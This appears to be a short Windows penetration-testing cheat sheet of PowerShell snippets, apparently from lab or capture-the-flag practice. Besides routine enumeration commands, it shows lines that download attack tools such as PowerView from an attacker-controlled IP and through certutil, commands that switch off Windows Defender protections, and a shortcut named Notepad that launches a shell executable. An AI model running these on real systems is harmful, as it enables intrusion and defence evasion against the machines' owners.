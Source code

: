 Who Am I?
```powershell
# Check Groups
whoami /groups

# Check Privileges
whoami /priv
```

Download Files
```Powershell
Invoke-WebRequest -Uri http://10.10.14.176:8000/PowerView.ps1 -OutFile PowerView.ps1

curl -o example.txt http://example.com/file.txt

certutil.exe -urlcache -split -f http://<ip>/file file_save
```

Get Processes
```
Get-Process | Format-Table -Property Name, Id, CPU, WorkingSet -AutoSize

Get-Process -Name "notepad"
```

Disable AV
```powershell
# Disable Windows Defender real time monitoring
Set-MpPreference -DisableRealtimeMonitoring $true

# Disable Windows Defender scanning for all files downloaded
Set-MpPreference -DisableIOAVProtection $true
```

List Network Connections
```powershell
netstat -aon
```

Shortcuts
```Powershell
$targetPath = "C:\xampp\htdocs\5shell.exe"
$shortcutPath = "C:\Common Applications\Notepad.lnk"
$shell = New-Object -ComObject WScript.Shell
$shortcut = $shell.CreateShortcut($shortcutPath)
$shortcut.TargetPath = $targetPath
$shortcut.Save()
```

Active Directory
```
Get-ADDomain

Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DSMachineAccountQuota
```
